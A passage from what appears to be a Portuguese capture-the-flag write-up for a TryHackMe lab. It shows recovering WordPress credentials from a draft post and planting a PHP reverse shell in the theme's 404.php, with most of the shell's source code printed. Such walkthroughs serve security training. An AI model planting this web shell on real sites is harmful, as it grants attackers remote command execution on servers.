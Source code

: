 Conseguimos o login!!!

Ao enumerar os posts do blog, encontramos um post sem título com uma tarefa `To-Do`, neste post, encontramos a credencial `william:arnold147`.

<img src="/thm/thm-internal-6.png">

Como o WordPress funciona sobre o PHP, vamos tentar editar alguma página de um tema para adicionarmos um payload.

Em `Appearance > Theme Editor`, podemos editar a página `404.php` com um payload. No meu caso, utilizarei o payload abaixo:

```php
<?php
// Copyright (c) 2020 Ivan Šincek
// v2.4
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer  = 1024;    // read/write buffer size
    private $clen    = 0;       // command length
    private $error   = false;   // stream read/write error
    public function __construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
        if (stripos(PHP_OS, 'LINUX') !== false) { // same for macOS
            $this->os    = 'LINUX';
            $this->shell = '/bin/sh';
        } else if (stripos(PHP_OS, 'WIN32') !== false || stripos(PHP_OS, 'WINNT') !== false || stripos(PHP_OS, 'WINDOWS') !== false) {
            $this->os    = 'WINDOWS';
            $this->shell = 'cmd.exe';
        } else {
            $detected = false;
            echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";
```